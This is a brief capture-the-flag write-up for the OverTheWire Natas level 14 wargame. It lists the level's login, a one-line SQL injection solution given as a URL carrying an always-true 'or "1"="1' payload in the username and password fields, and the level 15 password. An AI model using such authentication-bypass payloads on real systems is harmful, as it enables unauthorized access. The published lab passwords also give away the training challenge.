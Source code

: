 ### Natas Level 14

[natas14](http://natas14.natas.labs.overthewire.org)

**Username**: *natas14*

**Password**: *Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1*

### Solution

* SQLi
* Visit url http://natas14.natas.labs.overthewire.org/index.php?username=test%22%20or%20%221%22=%221&password=test%22%20or%20%221%22=%221&debug

#### Credentials for Level 15

**Username**: *natas15*

**Password**: *AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J*